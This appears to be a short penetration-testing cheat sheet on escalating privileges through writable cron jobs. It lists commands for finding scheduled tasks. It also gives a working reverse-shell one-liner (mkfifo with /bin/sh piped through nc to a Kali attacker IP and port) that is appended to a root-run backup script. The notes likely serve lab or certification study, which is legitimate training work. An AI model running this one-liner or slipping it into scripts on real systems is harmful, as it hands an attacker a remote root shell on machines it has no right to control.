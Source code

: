 ```yaml
---
IP_KALI: 192.168.45.237
PORT_KALI: "8888"
FILENAME: user_backups.sh
---
```

Look for running cron jobs:
```
grep "CRON" /var/log/syslog
```

Reverse shell one-liner to replace the contents of writable files
- echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <span id="IP_KALI"/>192.168.45.237<span type="end"/> <span id="PORT_KALI"/>8888<span type="end"/> >/tmp/f" >> <span id="FILENAME"/>user_backups.sh<span type="end"/>

List scheduled tasks:
```
ls -lah /etc/cron*
```

View current user's scheduled tasks:
```
crontab -l
```

List cron jobs using sudo reveals jobs run by root user:
```
sudo crontab -l
```
